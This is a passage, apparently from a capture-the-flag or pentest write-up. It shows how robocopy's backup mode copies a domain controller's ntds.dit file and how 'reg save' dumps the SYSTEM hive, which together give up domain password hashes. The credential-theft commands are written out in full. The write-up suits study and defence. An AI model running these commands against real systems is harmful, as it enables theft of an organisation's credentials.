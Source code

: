 ```

                 /S :: copy Subdirectories, but not empty ones.
                 /E :: copy subdirectories, including Empty ones.
             /LEV:n :: only copy the top n LEVels of the source directory tree.
                 /Z :: copy files in restartable mode.
                 /B :: copy files in Backup mode.  <-------------
                /ZB :: use restartable mode; if access denied use Backup mode.
                 /J :: copy using unbuffered I/O (recommended for large files).
            /EFSRAW :: copy all encrypted files in EFS RAW mode.
```

*using the command:* `robocopy /b z:\windows\ntds . ntds.dit`, the copy is a success! :D

![got-ntds-dit](got-ntds-dit.jpg)

we can then use the `reg` command with the `save` option to get the `SYSTEM` hive:

`reg save hklm\system c:\windows\Temp\system`

![got-system-hive](got-system-hive.jpg)
